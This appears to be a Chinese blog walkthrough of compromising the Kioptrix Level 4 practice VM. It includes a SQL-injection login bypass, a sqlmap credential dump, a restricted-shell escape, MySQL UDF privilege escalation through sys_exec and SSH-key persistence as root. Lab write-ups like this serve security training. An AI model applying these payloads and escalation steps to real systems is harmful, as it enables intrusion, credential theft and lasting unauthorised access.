+++
date = '2026-08-01T14:00:45+08:00'
draft = false
title = 'kioptrix level 4'
+++

## 靶机配置

host-only，kali是NAT，host-only双网卡

检查kali的eth1是否有网ip，

```
sudo dhclient eth1
```

kali网ip：192.168.65.128/24

## 信息收集

nmap 存活探测 靶机网ip:192.168.65.132

靶机做一个默认脚本扫描，服务探测，端口扫描

```
└─$ nmap 192.168.65.132 -sC -sV -p- -min-rate 2222 -r
Starting Nmap 7.98 ( https://nmap.org ) at 2026-07-31 09:58 +0800
Nmap scan report for 192.168.65.132
Host is up (0.0017s latency).
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:71:CA:7D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2026-07-31T06:00:24-04:00
|_clock-skew: mean: 10h00m51s, deviation: 2h49m43s, median: 8h00m50s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.32 seconds
```

## 漏洞发现

网页首页是一个登录界面，尝试sql注入，这里看到了有sql语法报错，应该是有注入点的





这里直接万能密码 `1 'or 1 --+'`登录上了admin，一直尝试出来是' 的单引号闭合，但是这个还有问题就是使用order by 去尝试查询字段数，不管输入多少都显示密码错误，但是我直接用 a' union select 1,2,3 -- +这个尝试出来了是字段数是3，但是没有回显的地方，之恶能暂时放下

网站目录扫描

```
└─$ dirsearch -u http://192.168.65.132
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                           
 (_||| _) (/_(_|| (_| )                                                                                                                                    
                                                                                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/usually/reports/http_192.168.65.132/_26-07-31_10-20-53.txt

Target: http://192.168.65.132/

[10:20:53] Starting:                                                                                                                                       
[10:20:54] 403 -  332B  - /.ht_wsr.txt                                      
[10:20:54] 403 -  335B  - /.htaccess.bak1                                   
[10:20:54] 403 -  335B  - /.htaccess.orig                                   
[10:20:54] 403 -  337B  - /.htaccess.sample                                 
[10:20:54] 403 -  335B  - /.htaccess.save
[10:20:54] 403 -  336B  - /.htaccess_extra                                  
[10:20:54] 403 -  335B  - /.htaccess_orig
[10:20:54] 403 -  333B  - /.htaccess_sc
[10:20:54] 403 -  333B  - /.htaccessOLD
[10:20:54] 403 -  334B  - /.htaccessOLD2
[10:20:54] 403 -  333B  - /.htaccessBAK
[10:20:54] 403 -  325B  - /.htm                                             
[10:20:54] 403 -  326B  - /.html
[10:20:54] 403 -  335B  - /.htpasswd_test                                   
[10:20:54] 403 -  331B  - /.htpasswds
[10:20:54] 403 -  332B  - /.httr-oauth                                      
[10:21:00] 403 -  329B  - /cgi-bin/                                         
[10:21:00] 200 -  109B  - /checklogin                                       
[10:21:01] 200 -  109B  - /checklogin.php                                   
[10:21:02] 200 -  298B  - /database.sql                                     
[10:21:02] 403 -  325B  - /doc/                                             
[10:21:02] 403 -  340B  - /doc/html/index.html                              
[10:21:02] 403 -  329B  - /doc/api/                                         
[10:21:02] 403 -  340B  - /doc/en/changes.html
[10:21:02] 403 -  339B  - /doc/stable.version                               
[10:21:04] 200 -  933B  - /images/                                          
[10:21:04] 301 -  356B  - /images  ->  http://192.168.65.132/images/
[10:21:05] 302 -    0B  - /logout/  ->  index.php                           
[10:21:05] 302 -    0B  - /logout  ->  index.php                            
[10:21:05] 302 -    0B  - /logout.php  ->  index.php
[10:21:06] 302 -  220B  - /member  ->  index.php                            
[10:21:06] 302 -  220B  - /member.php  ->  index.php                        
[10:21:06] 302 -  220B  - /member/  ->  index.php                           
[10:21:06] 302 -  220B  - /member/admin.asp  ->  index.php
[10:21:06] 302 -  220B  - /member/login  ->  index.php
[10:21:06] 302 -  220B  - /member/login.php  ->  index.php
[10:21:06] 302 -  220B  - /member/login.jsp  ->  index.php
[10:21:06] 302 -  220B  - /member/login.aspx  ->  index.php
[10:21:06] 302 -  220B  - /member/login.html  ->  index.php
[10:21:06] 302 -  220B  - /member/login.py  ->  index.php
[10:21:06] 302 -  220B  - /member/login.js  ->  index.php
[10:21:06] 302 -  220B  - /member/login.asp  ->  index.php
[10:21:06] 302 -  220B  - /member/login.rb  ->  index.php
[10:21:06] 302 -  220B  - /member/logon  ->  index.php
[10:21:06] 302 -  220B  - /member/signin  ->  index.php
                                                                             
Task Completed  
```



直接找到了一个用户john，拿他去返回登录尝试



直接万能密码进去还看到了密码，而且看样子这里能尝试刚才找到的联合查询，而且拿到了用户密码还可以去尝试一下ssh登录



靶机ssh版本太老，`ssh -o HostKeyAlgorithms=+ssh-rsa john@192.168.65.132`  MyNameIsJohn



是一个受限制shell，尝试一些语句还会被踢出登录，但是好在不会ban ip

现在感觉可以回去尝试一下union select 查询，看看能不能爆出高权限的用户出来

1' union select database(),2,3 -- +    ，但是好像联合注入用不了



sqlmap使用

post传参，先抓登录请求，写入loin.txt    sqlmap -r login.txt --batch



看到有布尔盲注和时间盲注存在，可以尝试，我们直接sqlmap爆

-dbs 查数据库，

-D 数据库 --tables   查表

-D 数据库 -T 表名 --dump

````
Database: members

Table: members

[2 entries]

+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | MyNameIsJohn         | john     |
| 2  | ADGdasdfwt4gadfga==  | robert   |
+----+----------------------+----------+
````

## 提权

还是登录john看看，这个受限制shell




**shell逃逸**，

当前受限制shell只允许运行几个简单的命令，

```
john:~$ help
cd  clear  echo  exit  help  ll  lpath  ls
```

在网上查到的信息这是一个python脚本写的受限制shell

一句echo os.system('/bin/bash')直接进入bash，

现在进入到bash，进行新一轮的信息收集

### LPE本地提权



系统版本还是很老的 应该可以尝试下LPE本地提权



这里不知道为什么我一直登录不上去robert这个用户，但是查看了一下他们两个用户都是kshell，应该都差不多

当前查看group，发现loneferret这个用户权限特别多，但是没有找到他的密码或者是其他ssh横向方法

### mysql UDF提权

**mysql udf**

查看用户是否安装了UDF库，查询一定要先指定使用的数据库

```
SELECT * FROM mysql.func;
```



可以利用sys_exec函数

select sys_exec('usermod -a -G admin john');



现在就能看到所有sudo权限了  sudo su提权成功

## 权限维持

本来是想做一个ssh任意密码登录，但是应该是靶机ssh系统太低了，现在留个公钥到靶机上就ok了

因为是老版本所以连接方式不一样

```
ssh \
-i ~/.ssh/id_rsa \
-o HostKeyAlgorithms=+ssh-rsa \
-o PubkeyAcceptedAlgorithms=+ssh-rsa \
root@192.168.65.132
```




